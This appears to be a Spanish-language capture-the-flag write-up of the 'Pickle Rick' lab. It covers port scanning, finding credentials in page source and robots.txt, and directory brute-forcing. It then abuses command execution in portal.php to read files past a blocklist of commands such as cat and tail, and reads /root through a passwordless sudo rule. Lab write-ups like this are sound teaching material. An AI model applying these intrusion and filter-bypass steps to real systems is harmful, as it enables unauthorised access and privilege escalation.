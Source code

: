 # Pickle Rick

## Initial Scan 

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:63:2a:1d:06:ed:17:9a:e4:24:2c:02:a9:0f:da:0d (RSA)
|   256 86:67:93:65:7e:11:65:de:ed:6f:23:f8:18:97:c0:3a (ECDSA)
|_  256 be:c9:b6:80:d7:6e:76:d9:a1:a4:65:20:21:cf:0d:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

## Enum

### HTTP

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
 ```
  
 En robots .txt tenemos esto
 ```
 Wubbalubbadubdub
 ```
 Podría ser una contraseña
   
#### Gobusting
```
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd.php (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

#### Login

Usamos las creds de anrtes para entra en login.php

En el fuente
```html
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```
Ni idea de que es ahora mismo

#### RCE

Tenemos un RCE en portal.php

#### Primer ingrediente

cat esta inhabilitado asi que usamos less para leer el primer ingrediente
```
mr. meeseek hair
```
#### Segundo ingrediente

Ejecutamos 
```
less /home/rick/*
```
Y tendriamos otro
```
1 jerry tear
```
Falta uno

## Privesc

Usando sudo -l en la web shell podemos ver lo siguiente
```
Matching Defaults entries for www-data on ip-10-10-50-6.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-50-6.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
Asi que podemos leer dentro de /root sin problema

```
sudo less /root/3rd.txt
```


## Funny Fact 

El script del portal.php es el siguiente

```php
function contains($str, array $arr)
{
    foreach($arr as $a) {
        if (stripos($str,$a) !== false) 
            return true;
        }
    return false;
    }
    // Cant use cat
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
if(isset($_POST["command"])) {
    if(contains($_POST["command"], $cmds)) {
        echo "</br>
```

Con lo cual aparte de less podriamos haber usado base64 | base64 -d o strings
